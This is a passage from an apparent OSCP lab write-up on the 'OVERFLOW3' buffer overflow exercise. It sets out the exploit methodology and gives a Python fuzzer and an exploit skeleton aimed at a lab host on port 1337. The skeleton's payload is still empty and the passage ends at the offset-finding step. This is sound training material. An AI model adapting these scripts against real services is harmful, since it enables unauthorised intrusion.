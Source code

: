 ```yaml
---
description: OSCP.exe
---
```


# OVERFLOW3

## Methodology

1\. Spiking or Playing with the program

2\. Fuzzing

3\. Controlling the EIP

4\. Finding Bad Characters

5\. Finding a Jump Point

6\. Generating a Payload

7\. "NOP Sledding"

8\. Exploitation

## Spiking or Playing

* Opened up the vulnerable program in Immunity
* Ran the program
* Noticed in Command Prompt that it is running a server on 1337
* Connected to the program via Netcat to see the inner workings of the program

## Mona Configuration

Place the following into the debugger window of Immunity:

```
!mona config -set workingfolder c:\mona\%p
```

## Fuzzing

<mark style="color:yellow;">Fuzzer.py</mark>

```
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.49.118"

port = 1337
timeout = 5
prefix = "OVERFLOW3 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

* Run the fuzzer and note the bytes it crashes at
* Fuzzing crashed at <mark style="color:yellow;">1300</mark> bytes

## Crash Replication and Controlling EIP

Exploit.py

```
import socket

ip = "10.10.49.118"
port = 1337

prefix = "OVERFLOW3 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

### msf-pattern\_create

* We now need to generate a program that is a length of 300 bytes longer than the string that crashed the program
* This is because we need to make room for the payload in memory
* <mark style="color:yellow;">1600</mark> bytes should do the trick
